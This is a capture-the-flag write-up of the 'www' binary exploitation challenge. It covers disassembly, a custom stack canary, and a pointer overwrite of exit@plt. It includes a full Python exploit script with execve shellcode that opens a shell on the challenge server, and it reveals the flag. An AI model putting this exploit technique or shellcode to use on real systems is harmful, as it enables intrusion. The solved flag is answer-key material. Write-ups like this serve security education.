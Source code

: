 ### Solved by barrebas

After solving `sushi`, there were plenty of pwnables left to choose from. Next up was `www`!

`www` was a 200 point challenge and consisted of a 32-bit Linux binary. After dealing with `sushi`, I decided to inspect the binary in `gdb-peda` right away:

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Again, no protections in place. Running the binary reveals what it is trying to do:

```bash
gdb-peda$ r
Welcome to www! Please give me two strings to have them echoed back to you!
buffers at 0xffffd4c4 and 0xffffd3c4, ready for input!
AAAAAA
BBBBBB
AAAAAA

BBBBBB

Stack canary created: >tC[hbw]
Better luck next time, eh?
```

Looks like it has two buffers on the stack and a custom stack canary implementation. The vulnerable function is called `copybuf`:

```
0804873c <copybuf>:
 804873c:   55                      push   ebp
 804873d:   89 e5                   mov    ebp,esp
 804873f:   83 ec 38                sub    esp,0x38
 8048742:   c7 44 24 08 09 00 00    mov    DWORD PTR [esp+0x8],0x9
 8048749:   00 
 804874a:   c7 44 24 04 68 9d 04    mov    DWORD PTR [esp+0x4],0x8049d68 ; canary
 8048751:   08 
 8048752:   8d 45 eb                lea    eax,[ebp-0x15]
 8048755:   89 04 24                mov    DWORD PTR [esp],eax
 8048758:   e8 c3 fe ff ff          call   8048620 <strncpy@plt>
 804875d:   8b 45 08                mov    eax,DWORD PTR [ebp+0x8]
 8048760:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048764:   8d 45 db                lea    eax,[ebp-0x25]                ; first buffer is copied here
 8048767:   89 04 24                mov    DWORD PTR [esp],eax
 804876a:   e8 41 fe ff ff          call   80485b0 <strcpy@plt>
 804876f:   8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]       ; ebp+0xc = second input
 8048772:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax          
 8048776:   8b 45 08                mov    eax,DWORD PTR [ebp+0x8]       ; overflow this pointer with exit@got
 8048779:   89 04 24                mov    DWORD PTR [esp],eax
 804877c:   e8 2f fe ff ff          call   80485b0 <strcpy@plt>
 ; check_cookie:
 8048781:   c7 44 24 04 68 9d 04    mov    DWORD PTR [esp+0x4],0x8049d68 ; canary
 8048788:   08 
 8048789:   8d 45 eb                lea    eax,[ebp-0x15]
 804878c:   89 04 24                mov    DWORD PTR [esp],eax
 804878f:   e8 bc fd ff ff          call   8048550 <strcmp@plt>
 8048794:   89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 8048797:   83 7d f4 00             cmp    DWORD PTR [ebp-0xc],0x0
 804879b:   74 18                   je     80487b5 <copybuf+0x79>        ; if canary check fails, call exit@plt -> overwrite
 804879d:   c7 04 24 30 8a 04 08    mov    DWORD PTR [esp],0x8048a30
 80487a4:   e8 17 fe ff ff          call   80485c0 <puts@plt>
 80487a9:   c7 04 24 00 00 00 00    mov    DWORD PTR [esp],0x0
 80487b0:   e8 2b fe ff ff          call   80485e0 <exit@plt>
 ; cookie_OK:
 80487b5:   c9                      leave  
 80487b6:   c3                      ret    
```

In short, the program takes two inputs and uses `strcpy()` to copy these to the stack. However, the saved return address on the stack is protected from overwriting by a custom stack canary. The way around is to exploit the buffer overflow to overwrite on of the arguments to the second `strcpy()`: the pointer to the second buffer. If we control that pointer, we basically have a write-what-where. I choose to overflow the pointer to the second buffer with the address of `exit@plt`. This way, after overwriting the stack canary, the program will try to exit, but `exit@plt` will point to attacker-controlled shellcode on the stack. 

Putting it all together:

```python
from socket import *
import struct, telnetlib, re

def p(x):
    return struct.pack('<L', x)

def pQ(x):
    return struct.pack('<Q', x)
    
s=socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 17284))
s.connect(('www.termsec.net', 17284))

buf = s.recv(200)

m = re.findall('(0x[0-9a-f]+)', buf)
buf1_addr = int(m[0], 16)
buf2_addr = int(m[1], 16)

print "[~] buf1: 0x%lx" % buf1_addr
print "[~] buf2: 0x%lx" % buf2_addr

# first input will overwrite the pointer that is used for the second strcpy 
payload = ""
payload += "A"*45       # padding
payload += p(0x8049d10) # we'll overwrite exit@plt
payload += p(buf2_addr) # restore this on the stack, otherwise it will be partially overwritten

s.send(payload + "\n")

# second input, used in second strcpy. By now, that strcpy will call:
# strcpy(0x8049d10, buffer2)
payload = ""
payload += p(buf2_addr+4)   # overwrite exit@plt with the address where the shellcode starts
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s.send(payload + "\n")
s.recv(200)

print "[!] enjoy your shell"

t = telnetlib.Telnet()
t.sock = s
t.interact()
s.close()
```

```bash
bas@tritonal:~/tmp/yvrctf/www-200$ python ./www.py
[~] buf1: 0xbfa660d4
[~] buf2: 0xbfa65fd4

[!] enjoy your shell
id
/bin//sh: 1: id: not found
cat flag.txt
flag{K33P_ST4T1C_L1K3_W00L_F4BR1C}
```

